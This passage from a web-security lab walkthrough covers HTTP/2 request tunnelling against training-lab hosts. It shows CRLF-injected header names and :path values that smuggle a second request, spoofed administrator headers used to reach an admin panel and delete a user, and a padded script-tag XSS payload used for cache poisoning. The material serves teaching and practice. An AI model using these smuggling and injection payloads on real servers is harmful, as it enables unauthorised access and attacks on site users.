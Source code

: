     Name: foo: bar/r/n
          /r/n
          GET /admin HTTP/1.1/r/n
          Host: 0af100d1040254cc85406e9b006f00af.web-security-academy.net/r/n
          X-SSL-VERIFIED: 1/r/n
          X-SSL-CLIENT-CN: administrator/r/n
          X-FRONTEND-KEY: 4589371175976603/r/n
          /r/n

    Value: x

Notice the response indicating the that the smuggled response length is shorter than the expected length of `GET / HTTP/2`.
Change the path to `/login` for a shorter response. Now we successfully got access to the admin panel. Notice this endpoint to delete user Carlos: `/admin/delete?username=carlos`. Now change the above header to delete Carlos:

    Name: foo: bar/r/n
          /r/n
          GET /admin/delete?username=carlos HTTP/1.1/r/n
          Host: 0af100d1040254cc85406e9b006f00af.web-security-academy.net/r/n
          X-SSL-VERIFIED: 1/r/n
          X-SSL-CLIENT-CN: administrator/r/n
          X-FRONTEND-KEY: 4589371175976603/r/n
          /r/n

    Value: x

### LAB: Web cache poisoning via HTTP/2 request tunnelling
First detect a XSS sink. Send this request:

    GET /resources/images?<script>alert(1)</script> HTTP/2

Notice that the script is appended to the location `Header`. If we can smuggle a request to this path where its response is contained inside a response with `Content-Type: text/html` header, our script will be executed.
Next find a CRLF vulnerability. To the `GET / HTTP/2` request change the request method to `HEAD` and change this header:

    Name: :path
    Value: / HTTP/1.1/r/n
           /r/n
           GET / HTTP/1.1/r/n
           Host: 0a4d0034032fae2a819c98890097009e.web-security-academy.net/r/n

The response is now containing the smuggled response just like the above lab. Now we have to change the path to point to `/resources/images?<script>alert(1)</script>`. This time we got an error indicating that the smuggled response length is much smaller than the expected length from the `HEAD / HTTP/2` request. To bypass this just simply add random payload to the path value so that it is greater than the expected length:

    Name: :path
    Value: /resources/images?<script>alert(1)</script>aaaaaaa... HTTP/1.1/r/n
           /r/n
           GET / HTTP/1.1/r/n
           Host: 0a4d0034032fae2a819c98890097009e.web-security-academy.net/r/n
